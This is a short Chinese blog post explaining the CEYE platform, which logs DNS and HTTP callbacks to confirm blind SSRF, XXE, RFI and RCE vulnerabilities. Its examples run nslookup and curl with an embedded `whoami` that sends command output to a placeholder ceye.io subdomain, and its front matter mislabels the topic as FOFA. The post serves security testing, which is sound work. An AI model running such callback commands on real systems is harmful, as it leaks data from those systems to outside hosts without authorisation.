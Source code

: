 ```yaml
---
layout: post
title: CEYE平台的使用
categories: [ 安全 ]
description: FOFA是一款非常强大的搜索引擎
keywords: 安全 
---
```



# CEYE 是什么

CEYE是一个用来检测带外（Out-of-Band）流量的监控平台，如DNS查询和HTTP请求。它可以帮助安全研究人员在测试漏洞时收集信息（例如SSRF / XXE / RFI / RCE）。

## CEYE的使用场景
 

漏洞检测或漏洞利用需要进一步的用户或系统交互。

一些漏洞类型没有直接表明攻击是成功的。如Payload触发了却不在前端页面显示。

这时候使用CEYE平台，通过使用诸如DNS和HTTP之类的带外信道，便可以得到回显信息。

##  CEYE如何使用

登录 CEYE.IO，在 [用户详情页](http://ceye.io/profile) 可以看到自己的域名标识符 identifier，对于每个用户，都有唯一的域名标识符 如 `abcdef.ceye.io` 。所有来自于 abcdef.ceye.io 或 *.abcdef.ceye.io 的 `DNS查询和HTTP请求`都会被记录。通过查看这些记录信息，安全研究人员可以确认并改进自己的漏洞研究方案。

DNS查询可以以多种不同的方式进行解析。CEYE.IO平台提供了一台DNS Server来解析域名。它的 nameserver address 被设置为自己的服务器IP，因此所有关于ceye.io 的域名的DNS查询最终都会被发送到CEYE的DNS服务器。

 
### 使用例子-nslookup
nslookup

```
 nslookup `whoami`.abcdef.ceye.io

Server:        127.1.1.1
Address:    127.1.1.1#53

Non-authoritative answer:
Name:    chan.abcdef.ceye.io
Address: 118.192.48.48
```


### 使用例子-http
 curl -X POST http://ip.port.abcdef.ceye.io/`whoami`?p=http -d data=http

## 参考

https://www.cnblogs.com/zhaijiahui/p/9160913.html